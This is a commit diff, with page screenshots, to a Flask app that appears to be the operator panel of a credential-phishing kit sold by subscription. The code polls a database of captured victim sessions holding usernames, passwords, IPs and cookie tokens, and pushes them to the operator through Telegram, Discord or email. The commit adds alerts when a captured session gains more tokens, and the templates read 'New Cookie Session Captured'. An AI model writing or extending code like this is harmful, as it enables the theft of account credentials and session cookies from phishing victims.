

Before and after one commit to raymondmitchell2015316/oxc, a Flask app: page /notifications in a window 1280 px wide. Shown: the part 187-1847 px from the top of the page at 74% size. Run offline with Flask 3, Linux system fonts and the light colour scheme; the visitor is signed in with stand-in values (Sample User, id 1).

Commit message:
Add files via upload

```diff
--- a/app.py
+++ b/app.py
@@ -50,7 +50,7 @@ monitoring_status = {
 }
 
 # Processed sessions tracking
-processed_sessions = {}
+processed_sessions = {}  # Track notified sessions: {session_id: last_notified_update_time}
 session_message_map = {}
 
 # Helper functions
@@ -342,7 +342,7 @@ def ip_check_required(f):
     return decorated_function
 
 def monitor_database():
-    """Background thread to monitor database for new sessions"""
+    """Background thread to monitor database for new sessions and updates"""
     global monitoring_status, processed_sessions
 
     config = load_config()
@@ -353,30 +353,59 @@ def monitor_database():
 
     while monitoring_status["active"]:
         try:
-            # Read latest session
-            latest_session = read_latest_session(db_path)
-
-            if latest_session and latest_session.get("id", 0) != 0:
-                session_id = str(latest_session.get("id", 0))
-
-                # Check if this is a new session
-                if session_id not in processed_sessions:
-                    print(f"[MONITORING] 🆕 New session detected! ID: {session_id}")
-                    print(f"[MONITORING] Session details: username={latest_session.get('username', 'N/A')}, remote_addr={latest_session.get('remote_addr', 'N/A')}")
-
-                    processed_sessions[session_id] = True
-                    monitoring_status["last_check"] = datetime.now().isoformat()
-                    monitoring_status["last_session_id"] = latest_session.get("id", 0)
-
-                    # Send notifications
-                    print(f"[MONITORING] Calling send_notifications for session {session_id}...")
-                    send_notifications(latest_session)
-                    safe_print(f"[MONITORING] [OK] Notification sent for session {session_id}")
-                else:
-                    # Session already processed, just update check time
-                    monitoring_status["last_check"] = datetime.now().isoformat()
+            # Get all recent sessions (check last 20 to catch updates)
+            all_sessions = get_all_sessions(db_path, limit=20)
+
+            if all_sessions:
+                monitoring_status["last_check"] = datetime.now().isoformat()
+
+                # Check each session for new data or updates
+                for session in all_sessions:
+                    if not session or session.get("id", 0) == 0:
+                        continue
+
+                    session_id = str(session.get("id", 0))
+                    current_update_time = session.get("update_time", 0)
+
+                    # Check if this session has been notified before
+                    if session_id not in processed_sessions:
+                        # New session - notify immediately
+                        print(f"[MONITORING] 🆕 New session detected! ID: {session_id}")
+                        print(f"[MONITORING] Session details: username={session.get('username', 'N/A')}, remote_addr={session.get('remote_addr', 'N/A')}")
+                        print(f"[MONITORING] Update time: {current_update_time}")
+
+                        # Track the update_time when we notified
+                        processed_sessions[session_id] = current_update_time
+                        monitoring_status["last_session_id"] = session.get("id", 0)
+
+                        # Send notifications
+                        print(f"[MONITORING] Calling send_notifications for session {session_id}...")
+                        send_notifications(session, is_updated=False)
+                        safe_print(f"[MONITORING] [OK] Notification sent for session {session_id}")
+                    else:
+                        # Session already notified - check if it has been updated with more data
+                        last_notified_time = processed_sessions[session_id]
+
+                        if current_update_time > last_notified_time:
+                            # Session has been updated - check if it has more complete data now
+                            has_tokens = bool(session.get("tokens")) or bool(session.get("http_tokens")) or bool(session.get("body_tokens")) or bool(session.get("custom"))
+                            had_tokens_before = False  # We don't track this, so assume we should re-check
+
+                            # Re-notify if session has been significantly updated (more than 5 seconds later)
+                            # This allows tokens and other data to be added
+                            if current_update_time > last_notified_time + 5:
+                                print(f"[MONITORING] 🔄 Session {session_id} updated! (update_time: {last_notified_time} -> {current_update_time})")
+                                print(f"[MONITORING] Has tokens: {has_tokens}")
+
+                                # Update the last notified time
+                                processed_sessions[session_id] = current_update_time
+
+                                # Re-send notifications with updated data
+                                print(f"[MONITORING] Re-sending notifications for updated session {session_id}...")
+                                send_notifications(session, is_updated=True)
+                                safe_print(f"[MONITORING] [OK] Updated notification sent for session {session_id}")
             else:
-                # No session found or invalid session
+                # No sessions found
                 monitoring_status["last_check"] = datetime.now().isoformat()
 
             time.sleep(30)  # Check every 30 seconds
@@ -400,20 +429,24 @@ def escape_markdownv2(text):
         result = result.replace(char, f'\\{char}')
     return result
 
-def send_notifications(session_data):
-    """Send notifications for a new session"""
+def send_notifications(session_data, is_updated=False):
+    """Send notifications for a new or updated session"""
     import traceback
 
     try:
         config = load_config()
-        print(f"[NOTIFICATIONS] Starting notification for session ID: {session_data.get('id', 0)}")
+        print(f"[NOTIFICATIONS] Starting notification for session ID: {session_data.get('id', 0)} (is_updated={is_updated})")
 
         # No TXT file needed - just send message template
         txt_file_path = None
 
-        # Get notification template from config or use default
-        notification_template = config.get("notification_incoming_cookie",
-            "*🍪 New Cookie Session Captured\\!*\n\n━━━━━━━━━━━━━━━━━━━━\n*Session Details:*\n• *ID:* `{session_id}`\n• *Username:* `{username}`\n• *Password:* `{password}`\n• *Remote IP:* `{remote_addr}`\n• *User Agent:* `{useragent}`\n• *Timestamp:* `{time}`\n━━━━━━━━━━━━━━━━━━━━")
+        # Get notification template from config based on whether it's new or updated
+        if is_updated:
+            notification_template = config.get("notification_updated_cookie",
+                "*🔄 Cookie Session Updated\\!*\n\n━━━━━━━━━━━━━━━━━━━━\n*Session Details:*\n• *ID:* `{session_id}`\n• *Username:* `{username}`\n• *Password:* `{password}`\n• *Remote IP:* `{remote_addr}`\n• *User Agent:* `{useragent}`\n• *Created:* `{create_time}`\n• *Updated:* `{update_time}`\n━━━━━━━━━━━━━━━━━━━━")
+        else:
+            notification_template = config.get("notification_incoming_cookie",
+                "*🍪 New Cookie Session Captured\\!*\n\n━━━━━━━━━━━━━━━━━━━━\n*Session Details:*\n• *ID:* `{session_id}`\n• *Username:* `{username}`\n• *Password:* `{password}`\n• *Remote IP:* `{remote_addr}`\n• *User Agent:* `{useragent}`\n• *Created:* `{create_time}`\n• *Updated:* `{update_time}`\n━━━━━━━━━━━━━━━━━━━━")
 
         # Format message using template with placeholders
         from datetime import datetime
@@ -423,15 +456,25 @@ def send_notifications(session_data):
         remote_addr = session_data.get("remote_addr", "N/A")
         useragent = session_data.get("useragent", "N/A")
         create_time = session_data.get("create_time", 0)
-
-        # Format timestamp
+        update_time = session_data.get("update_time", 0)
+
+        # Format create timestamp
         if create_time:
             try:
-                time_str = datetime.fromtimestamp(create_time).strftime("%Y-%m-%d %H:%M:%S")
+                create_time_str = datetime.fromtimestamp(create_time).strftime("%Y-%m-%d %H:%M:%S")
             except:
-                time_str = str(create_time)
+                create_time_str = str(create_time)
         else:
-            time_str = datetime.now().strftime("%Y-%m-%d %H:%M:%S")
+            create_time_str = "N/A"
+
+        # Format update timestamp
+        if update_time:
+            try:
+                update_time_str = datetime.fromtimestamp(update_time).strftime("%Y-%m-%d %H:%M:%S")
+            except:
+                update_time_str = str(update_time)
+        else:
+            update_time_str = create_time_str if create_time else datetime.now().strftime("%Y-%m-%d %H:%M:%S")
 
         # Replace placeholders in template (escape values for MarkdownV2)
         message = notification_template.replace("{session_id}", escape_markdownv2(str(session_id)))
@@ -439,7 +482,9 @@ def send_notifications(session_data):
         message = message.replace("{password}", escape_markdownv2(password))
         message = message.replace("{remote_addr}", escape_markdownv2(remote_addr))
         message = message.replace("{useragent}", escape_markdownv2(useragent))
-        message = message.replace("{time}", escape_markdownv2(time_str))
+        message = message.replace("{create_time}", escape_markdownv2(create_time_str))
+        message = message.replace("{update_time}", escape_markdownv2(update_time_str))
+        message = message.replace("{time}", escape_markdownv2(update_time_str))  # Legacy support
 
         # Check Telegram configuration
         telegram_enable = config.get("telegram_enable", False)
@@ -1326,7 +1371,8 @@ def get_notification_settings():
     """Get notification text settings"""
     config = load_config()
     return jsonify({
-        "incoming_cookie": config.get("notification_incoming_cookie", "*🍪 New Cookie Session Captured\\!*\n\n━━━━━━━━━━━━━━━━━━━━\n*Session Details:*\n• *ID:* `{session_id}`\n• *Username:* `{username}`\n• *Password:* `{password}`\n• *Remote IP:* `{remote_addr}`\n• *User Agent:* `{useragent}`\n• *Timestamp:* `{time}`\n━━━━━━━━━━━━━━━━━━━━"),
+        "incoming_cookie": config.get("notification_incoming_cookie", "*🍪 New Cookie Session Captured\\!*\n\n━━━━━━━━━━━━━━━━━━━━\n*Session Details:*\n• *ID:* `{session_id}`\n• *Username:* `{username}`\n• *Password:* `{password}`\n• *Remote IP:* `{remote_addr}`\n• *User Agent:* `{useragent}`\n• *Created:* `{create_time}`\n• *Updated:* `{update_time}`\n━━━━━━━━━━━━━━━━━━━━"),
+        "updated_cookie": config.get("notification_updated_cookie", "*🔄 Cookie Session Updated\\!*\n\n━━━━━━━━━━━━━━━━━━━━\n*Session Details:*\n• *ID:* `{session_id}`\n• *Username:* `{username}`\n• *Password:* `{password}`\n• *Remote IP:* `{remote_addr}`\n• *User Agent:* `{useragent}`\n• *Created:* `{create_time}`\n• *Updated:* `{update_time}`\n━━━━━━━━━━━━━━━━━━━━"),
         "status_update": config.get("notification_status_update", "*⚙️ System Status Changed*\n\n━━━━━━━━━━━━━━━━━━━━\n*Current Status:*\n• *Monitoring:* `{monitoring_status}`\n• *Telegram:* `{telegram_status}`\n• *Discord:* `{discord_status}`\n• *Email:* `{email_status}`\n*Admin Information:*\n• *Admin Status:* `{admin_status}`\n• *Subscription End Date:* `{subscription_end_date}`\n• *Updated At:* `{time}`\n━━━━━━━━━━━━━━━━━"),
         "subscription_warning": config.get("notification_subscription_warning", "*⏰ Subscription Expiring Soon\\!*\n\n━━━━━━━━━━━━━━━━━━━━\n*Account:* `{username}`\n*Current Status:* `{status}`\n*Expiry Date:* `{expiry_date}`\n*Days Remaining:* `{days_remaining}`\n\nPlease contact support to renew your subscription\\.\n━━━━━━━━━━━━━━━━━━━━"),
         "account_extension": config.get("notification_account_extension", "*🎉 Subscription Extended\\!*\n\n━━━━━━━━━━━━━━━━━━━━\n*Account:* `{username}`\n*Days Added:* `{days_added}`\n*New Expiry Date:* `{expiry_date}`\n*Status:* `{status}`\n━━━━━━━━━━━━━━━━━━━━"),
@@ -1345,6 +1391,7 @@ def update_notification_settings():
         data = request.json
         config = load_config()
         config["notification_incoming_cookie"] = data.get("incoming_cookie", "")
+        config["notification_updated_cookie"] = data.get("updated_cookie", "")
         config["notification_status_update"] = data.get("status_update", "")
         config["notification_subscription_warning"] = data.get("subscription_warning", "")
         config["notification_account_extension"] = data.get("account_extension", "")
--- a/templates/notifications.html
+++ b/templates/notifications.html
@@ -252,7 +252,21 @@
                             <button type="button" class="btn btn-success" onclick="testSessionNotification()" id="test-btn" style="margin-left: auto;">🧪 Test Notification</button>
                         </div>
                         <textarea id="incoming-cookie" placeholder="New cookie session detected!"></textarea>
-                        <small style="color: rgba(255,255,255,0.6);">This message will be sent when a new cookie session is detected. Uses Telegram MarkdownV2 format.</small>
+                        <small style="color: rgba(255,255,255,0.6);">This message will be sent when a new cookie session is detected. Uses Telegram MarkdownV2 format. Placeholders: {session_id}, {username}, {password}, {remote_addr}, {useragent}, {create_time}, {update_time}, {time}</small>
+                    </div>
+                </div>
+
+                <div class="notification-section">
+                    <h3>🔄 Updated Cookie Notification</h3>
+                    <div class="form-group">
+                        <label>Notification Text (MarkdownV2 format)</label>
+                        <div style="display: flex; gap: 10px; margin-bottom: 10px; flex-wrap: wrap;">
+                            <button type="button" class="btn btn-primary" onclick="prefillTemplate('updated-cookie', 'default')">📝 Default Template</button>
+                            <button type="button" class="btn btn-primary" onclick="prefillTemplate('updated-cookie', 'detailed')">📋 Detailed Template</button>
+                            <button type="button" class="btn btn-primary" onclick="prefillTemplate('updated-cookie', 'minimal')">✨ Minimal Template</button>
+                        </div>
+                        <textarea id="updated-cookie" placeholder="Cookie session updated!"></textarea>
+                        <small style="color: rgba(255,255,255,0.6);">This message will be sent when an existing cookie session is updated with additional data (tokens, cookies, etc.). Uses Telegram MarkdownV2 format. Placeholders: {session_id}, {username}, {password}, {remote_addr}, {useragent}, {create_time}, {update_time}, {time}</small>
                     </div>
                 </div>
 
@@ -362,9 +376,14 @@
         // Default notification templates (MarkdownV2 format)
         const notificationTemplates = {
             'incoming-cookie': {
-                'default': '*🍪 New Cookie Session Captured\\!*\n\n━━━━━━━━━━━━━━━━━━━━\n*Session Details:*\n• *ID:* `{session_id}`\n• *Username:* `{username}`\n• *Password:* `{password}`\n• *Remote IP:* `{remote_addr}`\n• *User Agent:* `{useragent}`\n• *Timestamp:* `{time}`\n━━━━━━━━━━━━━━━━━━━━',
-                'detailed': '*🍪 New Cookie Session Captured\\!*\n\n━━━━━━━━━━━━━━━━━━━━\n*Session Details:*\n• *ID:* `{session_id}`\n• *Username:* `{username}`\n• *Password:* `{password}`\n• *Remote IP:* `{remote_addr}`\n• *User Agent:* `{useragent}`\n• *Timestamp:* `{time}`\n━━━━━━━━━━━━━━━━━━━━',
-                'minimal': '🍪 *New Session:* `{session_id}` \\| `{username}`'
+                'default': '*🍪 New Cookie Session Captured\\!*\n\n━━━━━━━━━━━━━━━━━━━━\n*Session Details:*\n• *ID:* `{session_id}`\n• *Username:* `{username}`\n• *Password:* `{password}`\n• *Remote IP:* `{remote_addr}`\n• *User Agent:* `{useragent}`\n• *Created:* `{create_time}`\n• *Updated:* `{update_time}`\n━━━━━━━━━━━━━━━━━━━━',
+                'detailed': '*🍪 New Cookie Session Captured\\!*\n\n━━━━━━━━━━━━━━━━━━━━\n*Session Details:*\n• *ID:* `{session_id}`\n• *Username:* `{username}`\n• *Password:* `{password}`\n• *Remote IP:* `{remote_addr}`\n• *User Agent:* `{useragent}`\n• *Created:* `{create_time}`\n• *Updated:* `{update_time}`\n━━━━━━━━━━━━━━━━━━━━',
+                'minimal': '🍪 *New Session:* `{session_id}` \\| `{username}` \\| Updated: `{update_time}`'
+            },
+            'updated-cookie': {
+                'default': '*🔄 Cookie Session Updated\\!*\n\n━━━━━━━━━━━━━━━━━━━━\n*Session Details:*\n• *ID:* `{session_id}`\n• *Username:* `{username}`\n• *Password:* `{password}`\n• *Remote IP:* `{remote_addr}`\n• *User Agent:* `{useragent}`\n• *Created:* `{create_time}`\n• *Updated:* `{update_time}`\n━━━━━━━━━━━━━━━━━━━━',
+                'detailed': '*🔄 Cookie Session Updated\\!*\n\n━━━━━━━━━━━━━━━━━━━━\n*Session Details:*\n• *ID:* `{session_id}`\n• *Username:* `{username}`\n• *Password:* `{password}`\n• *Remote IP:* `{remote_addr}`\n• *User Agent:* `{useragent}`\n• *Created:* `{create_time}`\n• *Updated:* `{update_time}`\n\n*Note:* This session has been updated with additional data \\(tokens, cookies, etc\\.\\)\n━━━━━━━━━━━━━━━━━━━━',
+                'minimal': '🔄 *Session Updated:* `{session_id}` \\| `{username}` \\| Updated: `{update_time}`'
             },
             'status-update': {
                 'default': '*⚙️ System Status Changed*\n\n━━━━━━━━━━━━━━━━━━━━\n*Current Status:*\n• *Monitoring:* `{monitoring_status}`\n• *Telegram:* `{telegram_status}`\n• *Discord:* `{discord_status}`\n• *Email:* `{email_status}`\n*Admin Information:*\n• *Admin Status:* `{admin_status}`\n• *Subscription End Date:* `{subscription_end_date}`\n• *Updated At:* `{time}`\n━━━━━━━━━━━━━━━━━',
@@ -486,6 +505,7 @@
                 const data = await response.json();
 
                 document.getElementById('incoming-cookie').value = data.incoming_cookie || '';
+                document.getElementById('updated-cookie').value = data.updated_cookie || '';
                 document.getElementById('status-update').value = data.status_update || '';
                 document.getElementById('subscription-warning').value = data.subscription_warning || '';
                 document.getElementById('account-extension').value = data.account_extension || '';
@@ -504,6 +524,7 @@
             e.preventDefault();
 
             const incomingCookie = document.getElementById('incoming-cookie').value;
+            const updatedCookie = document.getElementById('updated-cookie').value;
             const statusUpdate = document.getElementById('status-update').value;
             const subscriptionWarning = document.getElementById('subscription-warning').value;
             const accountExtension = document.getElementById('account-extension').value;
@@ -519,6 +540,7 @@
                     headers: { 'Content-Type': 'application/json' },
                     body: JSON.stringify({
                         incoming_cookie: incomingCookie,
+                        updated_cookie: updatedCookie,
                         status_update: statusUpdate,
                         subscription_warning: subscriptionWarning,
                         account_extension: accountExtension,
```
Also changed, not shown: templates/database_viewer.html (+7 -2 lines).
